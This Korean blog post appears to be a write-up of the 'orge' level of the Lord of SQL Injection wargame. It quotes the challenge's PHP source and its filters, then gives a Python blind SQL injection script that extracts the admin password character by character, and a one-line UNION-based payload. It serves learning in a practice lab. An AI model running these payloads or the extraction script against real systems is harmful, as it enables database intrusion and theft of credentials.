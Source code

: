```yaml
---
title: Lord of SQL Injection Write Up No.7 Orge
date: 2019-08-18 02:10:31
updated:
categories:
  - Write Up
tags:
  - Lord of SQL Injection
  - Infosec
---
```


## 개요

{% img /image/los-main.png 300 %}

SQL Injection에 대한 지식을 쌓기 위해 [Lord of SQL Injection 사이트](https://los.eagle-jump.org/)의 문제를 풀고 해답을 정리한다.

이 문서에서는 Lord of SQL Injection 7번 orge 문제에 대하여 정리한다.

<!-- more -->

## 문제 분석

### 문제 출제 의도

`OR`, `AND`를 사용하지 않고 Blind SQL Injection을 수행하여 원하는 문자열을 얻어낼 수 있는지 확인한다.
또는 `UNION` 구문과 `LIMIT`을 이용하여 원하는 문자열을 얻어낼 수 있는지 확인한다.

### 소스 코드 분석

orge 문제의 php 소스 코드는 다음과 같다.

```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe");
  $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";

  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge");
  highlight_file(__FILE__);
?>
```

#### Filter

```php
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe");
```

- GET 방식으로 `pw`를 받고, `pw`에 `prob`, `_`, `.`, `()` 가 들어 있으면 `No Hack ~_~`이 뜨고 문제 풀이에 실패한다.
- 또한, `pw`에 대소문자 구분 없이 `or`, `and` 가 들어 있으면 `HeHe`가 뜨고 문제 풀이에 실패한다.

#### Query

```php
  $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";

  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge");
```

- 받은 `pw`가 직접 쿼리에 들어간다. 이것으로 SQL Injection 공격이 가능하다는 것을 알 수 있다.
- `$result['id']`에 참이 되는 어떤 값이든 들어 있으면 응답에 `"Hello "`와 `$result[id]` 값을 붙인 문자열이 포함된다.
- 문제 풀이가 성공하는 조건은 '데이터베이스에서 받은 `pw`와 GET 방식으로 전달받은 `pw`가 같음'이다. 즉, 실제 데이터베이스에 저장된 `pw`를 알아내서 전달해야 한다.

## Solution

1. SUBSTR 함수 활용

   Blind SQL Injection 문제이므로 4번 orc 문제에서 이용한 코드를 수정하여 활용한다.

   ```python
   import urllib.request
   from urllib.parse import quote

   key = ""

   # 4번 orc 문제에서 이용한 코드에서 추가된 부분
   pwlen = 0 # pw의 길이값을 저장한 변수

   for i in range(1, 20): # pw의 길이를 알아내기 위한 반복문. 길이가 1보다 크거나 같고 20보다 작다는 전제 하에 작동한다. 만약 길이를 알아내는 데 실패하면 범위를 넓힌다.
       url = "http://los.eagle-jump.org/orge_40d2b61f694f72448be9c97d1cea2480.php?pw="
       data = "' || id='admin' && length(pw)='{}'#".format(str(i)) # length() 함수를 통해 pw의 길이를 알아내는 부분이다.
       print(data)
       data = quote(data)
       re = urllib.request.Request(url + data)

       re.add_header(
           "User-agent", "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36")
       re.add_header(
           "Cookie", "PHPSESSID=jaqm7mrah73p9vvsj7mlp8ec23"
       )

       req = urllib.request.urlopen(re)

       if str(req.read()).find("Hello admin") != -1:
           pwlen = i # pw의 길이를 pwlen 변수에 저장한다.
           print('pw length : ' + str(pwlen))
           break
   # /4번 orc 문제에서 이용한 코드에서 추가된 부분

   for i in range(1, pwlen + 1): # i에는 1부터 pwlen까지 들어가도록 반복문을 구성
       for j in range(32, 127):
           url = "http://los.eagle-jump.org/orge_40d2b61f694f72448be9c97d1cea2480.php?pw="
           data = "' || id='admin' && substr(pw, 1, {})='{}'#".format( # or, and 를 ||, && 로 수정
               str(i), key + chr(j))
           print(data)
           data = quote(data)
           re = urllib.request.Request(url + data)

           re.add_header(
               "User-agent", "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36")
           re.add_header(
               "Cookie", "PHPSESSID=jaqm7mrah73p9vvsj7mlp8ec23"
           )

           req = urllib.request.urlopen(re)

           if str(req.read()).find("Hello admin") != -1:
               key += chr(j).lower()
               print(key)
               break
   print(key)
   ```

   이러한 코드를 실행하면 결과값으로 `6c864dec`를 출력한다.
   이를 GET 방식으로 `pw`의 값으로 전달하면 풀린다.

   ```url
   http://los.eagle-jump.org/orge_40d2b61f694f72448be9c97d1cea2480.php?pw=6c864dec
   ```

2. `UNION` 구문 및 `LIMIT` 구문 이용

   7번 문제는 `UNION` 구문을 필터링 하지 않고 있으므로 `UNION`을 통해 바로 `pw`값을 알아내는 시도를 해볼 수 있다.

   ```url
   http://los.eagle-jump.org/orge_40d2b61f694f72448be9c97d1cea2480.php?pw=-1' || @a:=pw %26%26 0 union select @a-- -
   ```

   ```sql
   select id from prob_orge where id='guest' and pw='' || @a:=pw && 0 union select @a-- -'
   ```

   `Hello 6c864dec`
